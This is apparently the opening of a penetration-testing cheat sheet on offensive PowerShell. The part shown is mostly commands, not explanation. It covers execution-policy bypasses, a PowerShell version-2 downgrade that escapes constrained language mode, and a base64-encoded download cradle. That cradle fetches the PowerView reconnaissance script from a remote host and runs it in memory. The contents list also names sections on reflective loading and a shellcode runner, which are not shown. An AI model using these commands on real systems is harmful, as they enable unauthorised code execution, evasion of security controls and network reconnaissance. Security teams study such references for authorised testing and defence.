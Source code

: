 # Powershell

## Summary

- [Powershell](#powershell)
    - [Summary](#summary)
    - [Execution Policy](#execution-policy)
    - [Encoded Commands](#encoded-commands)
    - [Constrained Mode](#constrained-mode)
    - [Encoded Commands](#encoded-commands)
    - [Download file](#download-file)
    - [Load Powershell scripts](#load-powershell-scripts)
    - [Load C# assembly reflectively](#load-c-assembly-reflectively)
    - [Call Win API using delegate functions with Reflection](#call-win-api-using-delegate-functions-with-reflection)
        - [Resolve address functions](#resolve-address-functions)
        - [DelegateType Reflection](#delegatetype-reflection)
        - [Example with a simple shellcode runner](#example-with-a-simple-shellcode-runner)
    - [Secure String to Plaintext](#secure-string-to-plaintext)
    - [References](#references)

## Execution Policy

```ps1
powershell -EncodedCommand $encodedCommand
powershell -ep bypass ./PowerView.ps1

# Change execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-ExecutionPolicy Bypass -Scope Process
```

## Constrained Mode

```ps1
# Check if we are in a constrained mode
# Values could be: FullLanguage or ConstrainedLanguage
$ExecutionContext.SessionState.LanguageMode

## Bypass
powershell -version 2
```

## Encoded Commands

- Windows

    ```ps1
    $command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
    ```
